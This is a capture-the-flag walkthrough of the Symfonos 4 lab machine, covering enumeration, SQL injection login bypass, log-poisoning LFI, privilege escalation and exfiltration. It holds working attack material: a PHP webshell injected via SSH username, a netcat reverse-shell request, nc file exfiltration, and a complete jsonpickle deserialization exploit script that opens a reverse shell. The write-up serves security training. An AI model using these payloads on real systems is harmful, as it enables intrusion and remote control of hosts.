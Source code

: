 # SYMFONOS 4

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](./_resources/349aeda966314e6f8d09bcfcbd4a1774.png)

Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](./_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`

![0975e9ea8b8186843034eaa7daa54ebf.png](./_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](./_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](./_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](./_resources/923829f107e945e6b7a41707a66f6ac7.png)

Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](./_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](./_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](./_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](./_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
* https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
* https://github.com/bayufedra/Tiny-PHP-Webshell
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](./_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](./_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](./_resources/fe456d74e92b491db68c287f7dbedab2.png)

Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](./_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

We can upload LinEnum on the target with python3 and the lib http.server:

![4d63d0022347ed21c3ba7df24c2522c0.png](./_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](./_resources/ab77bd1365544d76b1c000435b81d303.png)

`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](./_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
* https://www.ssh.com/academy/ssh/tunneling/example

We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](./_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](./_resources/5a338a152d2b442590792a507f02c051.png)

We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](./_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](./_resources/454c47d973674ee5a1c0fd8caca828c6.png)

This articles explain about exploit it:
* https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
* https://www.synopsys.com/blogs/software-security/python-pickling/
* https://blog.nelhage.com/2011/03/exploiting-pickle/
* https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](./_resources/48add1eec8404568aa483028b4b3ffb2.png)

Needs encode to base64:

![1581ff27f0379884666328b034bca78e.png](./_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:

![9ff866356191b6a5f8b5598ea0661897.png](./_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:

![7f985f49d2994f98f434e810c1788f65.png](./_resources/24c617101aa14ecfbedb88e5539534f3.png)
 
